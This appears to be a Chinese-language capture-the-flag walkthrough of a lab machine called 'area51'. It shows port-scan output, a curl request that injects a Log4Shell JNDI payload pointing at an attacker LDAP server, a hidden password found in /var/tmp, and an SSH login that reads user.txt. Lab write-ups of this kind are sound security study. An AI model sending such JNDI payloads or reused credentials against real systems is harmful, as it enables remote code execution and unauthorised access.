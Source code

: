 ```bash
[*] alive ports len is: 4
start vulscan
172.17.0.1:22 open
[*] WebTitle http://172.17.0.1         code:200 len:1131   title:FBI Access
[*] WebTitle http://172.17.0.1:8080    code:400 len:277    title:None
[*] WebTitle http://172.17.0.2:8080    code:400 len:277    title:None
```

```bash
curl http://172.17.0.1:8080 -H 'X-Api Version:${jndi:ldap://192.168.68.99:1389/a}'
```
好吧, 这样子好像不行, 之后回过来想想

## 枚举
```bash
cd /var/tmp
ls -al
total 16
drwxrwxrwt    1 root     root          4096 Dec 19  2021 .
drwxr-xr-x    1 root     root          4096 Dec 20  2018 ..
-rw-r--r--    1 root     root            10 Dec 19  2021 .roger
cat .roger
b3st4l13n
```

## ssh登录靶机
```bash
roger@area51:~$ ls -al
total 36
drwxr-xr-x 3 roger roger 4096 Dec 21  2021 .
drwxr-xr-x 3 root  root  4096 Dec 19  2021 ..
lrwxrwxrwx 1 roger roger    9 Dec 19  2021 .bash_history -> /dev/null
-rw-r--r-- 1 roger roger  220 Dec 19  2021 .bash_logout
-rw-r--r-- 1 roger roger 3644 Dec 19  2021 .bashrc
drwxr-xr-x 3 roger roger 4096 Dec 19  2021 .local
-rw-r--r-- 1 roger roger  807 Dec 19  2021 .profile
-rw-r--r-- 1 roger roger   69 Dec 21  2021 shoppingList
-rw-r--r-- 1 roger roger  373 Dec 21  2021 SubjectDescription
-rw-r--r-- 1 root  root  1497 Dec 21  2021 user.txt
roger@area51:~$ cat user.txt
                          `--:::::::-.`
                      .://:----------://:`
                   `:/:.-----------------+/`
                  //-.--------------------:o-
                `+-.-----------------------:o:
               `o-.------------------------:/s.
               +-.-------------------------://o
              .+.--------------------------///s`
              +-.------------------------:////o.
              s.----------------------:://///:s`
             `o.------------------/:+/o+/////++
             `o.------------------s/+/+/////+/`
            .:o--------------::::/+//////++/.
           -o+..:/:------------/////////:.`
           /s:.` `+:---://:--//++/+/:.`
           `oys:::/s--/o:.````o+o:.
            `/oo+:++--s/:::/+o++`
              `//:----:++++++/:`
               .+.-------:o+`
                o.-------/s`
                o.------:o-
                o.------+/
             `.:/.--:/:+o
```
